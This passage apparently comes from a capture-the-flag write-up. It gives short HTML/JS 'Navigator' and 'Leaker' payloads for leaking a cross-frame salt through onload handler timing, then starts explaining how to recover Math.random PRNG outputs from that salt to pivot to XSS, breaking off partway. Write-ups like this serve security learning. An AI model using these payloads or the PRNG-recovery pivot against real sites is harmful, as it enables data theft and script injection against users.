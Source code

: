 ### Navigator & Leaker

```html
<!-- Navigator (cached) → keeps re-navigating -->
<script>
setTimeout(() => {
  location = URL.createObjectURL(
    new Blob([document.documentElement.innerHTML], {type: 'text/html'})
  );
}, 150);
</script>
```

```html
<!-- Leaker (non-cached) → catch the resend -->
<script>
onmessage = e => leak(e.data.salt);
</script>
```

### handler timing

* **Loads only help if the onload handler is attached at that moment.**
* Cached cycle: ACK processed immediately → handler gone → Navigator’s initial loads are ignored by the parent (but they still *happen*, which is important).
* Non-cached cycle: fresh handler attached; we **delay** its ACK; now a Navigator load fires while handler is **still attached** → second send happens.

---

## After the leak: PRNG → XSS pivot → flag

Once we have **one** non-cached salt, the rest is deterministic engineering.

### 1) Split the salt into 5 base36 chunks

The non-cached salt is the concatenation of 5 `Math.random()` outputs in base36. E.g.

```js
salt = r1.toString(36).slice(2)
     + r2.toString(36).slice(2)
     + r3.toString(36).slice(2)
     + r4.toString(36).slice(2)
     + r5.toString(36).slice(2);
```

Chunk lengths vary (\~10–12 chars). Recovering them is a small search:

* Try plausible 5-way splits (start with 11/11/11/11/11, adjust ±1 where needed).
* Convert base36 chunk → float in `[0,1)` approximation.
* Check if a consistent JS-PRNG progression fits those 5 outputs (don’t over-explain engine specifics; we just verify consistency and move forward).

Outcome: **five consecutive PRNG outputs** recovered.
